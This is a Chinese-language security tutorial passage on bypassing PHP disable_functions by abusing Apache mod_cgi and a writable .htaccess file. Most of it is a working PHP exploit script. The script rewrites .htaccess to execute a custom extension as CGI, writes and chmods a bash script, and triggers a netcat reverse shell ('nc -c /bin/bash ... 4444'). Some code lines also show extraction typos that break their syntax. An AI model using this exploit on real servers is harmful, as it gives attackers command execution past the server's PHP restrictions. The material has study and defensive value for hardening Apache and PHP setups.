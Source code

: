 > 原文：[http://book.iwonder.run/安全技术/Disable functions/7.html](http://book.iwonder.run/安全技术/Disable functions/7.html)

## 利用 Apache+mod_cgi+.htaccess 绕过

**1\. 前提条件**

*   启用 mod-cgi
*   允许.htaccess 文件
*   .htaccess 可写

**2\. 基本原理**

在 apache 的 WEB 环境中，我们经常会使用.htaccess 这个文件来确定某个目录下的 URL 重写规则，特别是一些开源的 CMS 或者框架当中经常会用到，比如著名的开源论坛 discuz!，就可以通过.htaccess 文件实现 URL 的静态化，大部分 PHP 框架，例如 ThinkPHP 和 Laravel，在 apache 环境下会用.htaccess 文件实现路由规则。但是如果.htaccess 文件被攻击者修改的话，攻击者就可以利用 apache 的 mod_cgi 模块，直接绕过 PHP 的任何限制，来执行系统命令。

**3\. exp**

```
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹 shell
$shellfile ="#!/bin/bash\n"; //指定 shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个 header，否则会返回 500
$shellfile .="$cmd";
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
   echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
   @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND);
   header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
   $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测 mod_cgi 是否开启
   $writable = is_writable('.'); //检测当前目录是否可写
   $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
       checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
       checkEnabled("Iswritable",$writable,"Yes","No");
       checkEnabled("htaccessworking",$htaccess,"Yes","No");
   if(!($modcgi && $writable&& $htaccess))
   {
       echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
   }
   else
   {

checkEnabled("Backing
up.htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded!Saved in
.htaccess.bak","Failed!"); //备份一下原有.htaccess

checkEnabled("Write
.htaccessfile",file_put_contents('.htaccess',"Options
+ExecCGI\nAddHandlercgi-script
.dizzle"),"Succeeded!","Failed!");//.dizzle，我们的特定扩展名
       checkEnabled("Write shellfile",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!");//写入文件
       checkEnabled("Chmod777",chmod("shell.dizzle",0777),"Succeeded!","Failed!");//给权限
       echo "Executing the script now.Check your listener <img src = 'shell.dizzle' style ='display:none;'>"; //调用
   }
}
?> 
```

